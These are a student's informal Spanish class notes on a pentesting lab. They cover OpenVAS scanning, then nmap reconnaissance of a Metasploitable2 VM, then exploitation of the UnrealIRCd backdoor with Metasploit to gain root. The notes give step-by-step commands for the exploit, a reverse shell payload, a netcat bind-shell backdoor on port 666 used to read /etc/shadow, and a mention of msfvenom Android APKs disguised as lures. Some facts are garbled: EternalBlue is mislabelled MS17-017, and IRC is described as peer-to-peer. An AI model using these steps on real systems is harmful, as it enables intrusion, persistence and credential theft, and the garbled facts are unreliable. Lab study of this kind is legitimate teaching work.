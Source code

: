 Entonces el mejor analizador que huvo fue Nessus
Esti tenía un Core y un Frontend.

Entonces los NASL era Network Attack Script Lang, que analiza vulnerabilidades de forma exhaustiva, aún está pero sin frontend pero algo generoso fue dejar el core de forma LGP y crear analizadores de vulnerabilidades y salió un escanera de auditorias de vulnevs (OpenVAS) y mira los net-vuln-treaths

Ahora podemos pedir a la IA conocer los exploits pero mejor con NMAP pero OpenVAS es aún beta, es bueno, pero intenta ser un NESSUS en versión libre, es inestable y cuesta ponerlo, falla por cualquier cosa y pailas. El maestro Pereira ha estado en cositas de Pentesting y en el CiberGaula (es muy youtuber) y publicó un truquito en la instalación del OpenVAS. Dentro el campus virtual en la sección de pentesting está la Config OpenvAS (el proceso es hacer un update, upgrade, un install, un greenvon, inicializar un postgre, alimentar para sincronizar metadatos de GVM, luego sincroniza las vistas de tablas como NVT como caché para que por cada servicio no deba ir a Mitre estas NBT y sincroniza eso, y lo que pillaron es que luego al hacer el CERT [por ejemplo cuando uno tirea un proceso como `ps` es que sale algo y terminó el proceso] pero acá el comando es que cuando actualiza los certificados de las baterías de ataques, ejecuta y muestra la shell y luego hace el gvm-start y falla, pero resulta que es porque no ha terminado, por lo que toca ir a mirar con htop (mirando carga de memoria, procesos, y hasta que no llegue al 100% pues no ha terminado de mirar lo de las NBTs)) si se pone a punto porque la primera capa de (servicios operacionales) permite interactuar con metodos y funciones.  


Entonces se mete activa el OpenVAS y va a crear una New Task, pone 
- Name: ScanWXP6M2025
- Como mucho pone la IP y le da play. hace la req, avanza y demora al menos 15/20 mins, pero quedan muy lindos los reportes.

Entonces cuando termina le da por la severidad y accede, le dice en Results la severidad, donde 10 pues es que murio, eso ya no tiene ni parches ni seguridad ni nada, dice que tieen vulnerabilidades sobre el servicio SMB, puede que tenga una de ICMB que está en low, tiene algo que es un download  y mira los reportes y hay varios formatos para descargar.

Entonces saca como un latex del report, que va de lo más importante al menos. Entonces lo que está en rojito uno lo anota porque esos errores MS pues pueden tener más vinculaciones. Por ejemplo el (Ethernal Blue = MS17-017)

Eso en resumen ataca pero no explota (no manda el payload, demuestra que es vulnerable, no simplemente porque ocrrelacionea la versión con la CVE pero no manda el ataque, que pues es lo que hace metasploit)

Al final hace un `sudo gvm-stop`.

---
En VMWare es por NAT y arrancamos la otra máquina a explotar, es Metasploitable2-Linux, esta lanza muchos servicios con configuraciones por default, cuando uno despliega en producción debe hacer una guía de Hardening, porque en los entornos de cloud, antes de hacer todo eso es meter restricciones de variables, deshabilitar servicios.. Si uno tiene un OS para prestar servicios entonces para qué meterle interfaz? Por ejemplo un ubuntu que manda voleo servicios.

Entonces entra con MSFADMIN, el reconocimiento pasivo hacaerlo una sóla vez, 3 exploits y al menos de 3 sistemas /serv/protocolos diferentes, no todo por metasploit sino un win, lin, android y bueno, al menos sobre 3 sistemas, reconocer la IP al menos pues una vez jaja.

Entonces mete user, pass y mira que ahí sale la IP.

Entonces vamos a nuestros. Y si en el cali hicimos una identificación de puertos nos muestra el 139 y 445 que son cosas de ms pero pues es por zamba.


> Cómo identificar las máquinas a las que estoy conectado.
>
> Primero es entender que la arquitectura es punto a punto con intermediarios, de forma que primero hacemos un
> `sudo arp-scan -I eth0 --localnet`
>
> Entonces pues nos salen varios dispositivos y reconocemos que pues una dirección es broadcast (255 al final), la otra que tiene el .1 pues uno identifica es su gateway, la que tiene .2 pues es uno y entonces quedan 2, estas toca buscar entonces qué son, hagmámoslo por ping, de forma que sabemos que las MS responden con 128 ms mientras que las linux con 64(+/-)1. 


Entonces hace un `sudo nmap -sC -sV 192.168.211.130` y pues mira a ver qué información interesante le sale (silencioso es que apaga flags TCP para evitar alarmas. Entonces disecciona el paquete y con PCAP y entonces cambia las banderas para apagarlas en el paquete).

Entonces al mirarlo tiene un servicio de Apache, que Mysql, mirando tienee que el 56667 que tiene UnrealIRCd, este es el sistema de echat más antiguo que existe y se usa muchísimo en comunidades de hackers, en wikileaks para comunicaciones sincronas y asíncronas, tiene una ventaja enorme sobre los chats de ahora como telegram wasap o gchat, porque es peer to peer, a los hackers les gusta mucho porque no pasa por ningún servidor, es punto a punto con usuarios anónimos, es asíncrono hasta que se conecte, pero si no pues puede ser que lo envíe en cualquier momento, y eso, no se breachea ni almacena ni nada. La seguridad de Wasa o telegram etc pues pasa por un servidor central que no se conoce quién lo pueda atacar y filtrar.

El 65% de las peticiones de la deep web para acceder a constraseñas tiene que ver con asuntos de pareja.

Entonces vamos a `cd usr/share/nmap/scripts`

`ls -la | grep mysql` porque vimos que había algo de Mysql, por ejemmplo nos sale que si hay usuarios sin contraseña, entonces miramos con

`sudo nmap --script mysql-empty-password <192.168...>`

y nos sale que por el 3306 la cuenta root no tiene contraseña

Entonces si hace 

`mysql -h 192.168.122.156 -n -root`

Pero entonces que no explotamos esa vulnerabilidad sino otra del ircD

`ls -la | grep irc`

Entonces cuando miramos que en modo verboso salían datos salió algo que era algo del unreal.

Entonces `sudo nmap --script irc-unrealircd-backdoor 192.168.116.129` y entonces va a intentar y eureca!

En el puerto 6667 dice que ay una versión trojanizable. Y entonces tenemso algo para mysql y 

Entonce ahora vamos a metasploit, va al path

`cd usr/share/metasploit-framework/modules/explits` 

Y podría seguir navegando por los OS pero pues sabe que no es un HP, ni un irix, puede ser linux, puede ser unix pero uno puede buscar:

`find . -name "*irc*" -print`
busque desde ahí un patron regular que tenega y botelo como salida estandar . Si quiere paquetes entre comillas y separa cada path con punto y coma.

Entonces encontró varios, dos de windows así que descarados, pero pues salió algo de "irc/unreal" que coincide con lo que vimos antes, así que lo copiamos `unix/`


Entonces arranca el postgre por si acaso con `sudo postgre init??? algo así`

Y entonces hace el `msfconsole` para empezar la consola del Meta Sploit Framework. En este caso se hace un reverse solito (no TCP) y tiene un path por defecto, acá toca poner una variable para que sugiera el payload.

Entonces hacemos un
`use exploit/unix/irc/` tab porque sólo hay uno
`use exploit/unix/irc/unreal_irc...` enter y configuramos

`set rhost 192.168.116.129` y no tenemos ni payload ni nada que nos identifique
si hacemos `show payloads` y el que mejor nos sirve es `payload/cmd/unix/reverse` no como antes y uno pone `set payloads payload/cmd/unix/reverse` y ahora sí nos salió el LHOST. Entonces hacemos un `set lhost 192.168.126.8` que somos nosotros.
Entonces ya tentemos todo, el servicio unreal listo, el lport (por donde hace la conexión reverse) y el automatic target.

Entonces le damos `exploit` y listo.

Acá no botó prompt pero es porque esa versión no sale nada, entonces limpiamos y un `id` y sale somos rooot
y luego si ponemos `mkdir /root/HACKN6M2025`
Y con `ls` ahí sale la carpeta, somos god.

---
Entonces vamos a intentar dejar un Backdoor, porque puede que la máquina se parche pero 

Entonces está en netcad, va sobre WIN, LIN, en otrora se usaba para mandar servicios en puertos (viejito jsj) cuando gestionamos bases de datos vamos a un yaml, xml, y ponemos el puerto para escuchar el servicio (dbport, httport, lo que sea) en apache mavem lo que sea, antes uno debía asociar el coso con `netcan -listen -p 8080 /bin/mysqldev` pero ahora es como con un fichero de li,+

Entonces hacemos un `netcat -l -v -o 666 -e /bin/bash`
-e es execute. Deje en listen veboso el puerto 666 y deje una bash abierta por ahí.

Entonces en el Kali donde sea como uno dejó una puerta abierta hace un telnet, -nc netcat, ssh
`ncat .116.129 666` y entonces ahí queda abierto y entra `net /etc/shadow`


---
El mares nos muestra sobre android, el entorno MSFC Venom, utiliza combinaciones de exploits local, que ejecuta convenciendo, con que le haga escaner 3d y se instala (decir que puede ver cualquier torneo gratis, que resuelve preguntas, lo que sea) genera apk .bin y crea un exploit local y se abre con otro remoto multihandler, que le pega a todo (mac, android, win, etc etc...)